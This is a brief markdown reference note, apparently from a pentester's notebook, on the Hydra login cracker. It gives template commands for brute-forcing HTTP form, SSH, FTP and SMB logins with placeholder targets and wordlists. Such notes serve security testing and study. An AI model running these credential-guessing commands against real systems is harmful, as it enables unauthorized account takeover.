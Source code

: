 ```yaml
---
id: hydra
aliases: []
tags:
  - Webapp/Exploitation/Brute-force/hydra
---
```


# Hydra

[thc-hydra](https://github.com/vanhauser-thc/thc-hydra) -
a parallelized login cracker which supports many different protocols

- [Kali Linux Tools | Hydra](https://www.kali.org/tools/hydra/)
- [Arch manual pages - Hydra](https://man.archlinux.org/man/hydra.1.en)

<!-- Usage {{{-->
## Usage

HTTP post form username crack

```sh
hydra -L {username_file} -p {test_password} {target_url} http-post-form "/:username=^USER^&password=^PASS^:Invalid username and password."
```

Brute force SSH login

```sh
hydra -l {target_user} -P {password_list} {target_ip} ssh
```

Brute force FTP login

```sh
hydra -l {target_user} -P {password_list} {target_ip} ftp
```

Brute force SMB login

```sh
hydra -l {target_user} -P {password_list} {target_ip} smb -t 1
```

___
<!-- }}} -->
